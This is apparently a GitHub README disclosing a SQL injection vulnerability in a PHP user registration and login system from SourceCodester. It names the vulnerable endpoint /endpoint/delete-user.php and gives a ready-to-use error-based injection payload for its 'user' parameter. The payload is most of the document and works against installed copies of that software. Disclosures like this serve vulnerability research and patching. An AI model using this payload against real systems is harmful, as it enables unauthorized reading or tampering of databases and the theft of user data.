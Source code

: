 # user-registration-and-login-system-SQLi-PoC
SQL injection vulnerability PoC for (User Registration and Login System by rems)

Author : Abdelhamid Aghamir

vendors: https://www.sourcecodester.com/php/16890/user-registration-and-login-system-using-php-source-code.html

Vulnerability File: /endpoint/delete-user.php

[+] PoC: 
/endpoint/delete-user.php?user=1' AND EXTRACTVALUE(4432,CONCAT(0x5c,0x716b767671,(SELECT (CASE WHEN (ISNULL(JSON_STORAGE_FREE(NULL))) THEN 1 ELSE 0 END)),0x7171787171))-- XXX
